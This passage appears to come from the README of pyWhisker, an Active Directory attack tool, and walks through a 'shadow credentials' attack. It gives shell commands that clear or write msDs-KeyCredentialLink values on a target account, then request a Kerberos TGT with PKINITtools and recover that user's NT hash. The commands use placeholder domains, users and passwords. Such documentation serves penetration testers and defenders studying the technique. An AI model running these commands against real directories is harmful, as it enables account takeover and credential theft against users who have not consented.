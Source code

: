 ```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```

![](./.assets/clear.png)

## Add new values

pyWhisker has the ability to generate RSA keys, a X509 certificate, a KeyCredential structure, and to write the necessary information as new values of the `msDs-KeyCredentialLink` attribute. The certificate can be exported in a PFX format (#PKCS12, certificate + private key protected with a password) or in a PEM format (PEM certificate, PEM private key, no password needed).

### Example with the PFX format

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test1
```

![](./.assets/add_pfx.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```

![](./.assets/add_pfx_gettgtnthash.png)

### Example with the PEM format

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test2 --export PEM
```

![](./.assets/add_pem.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```
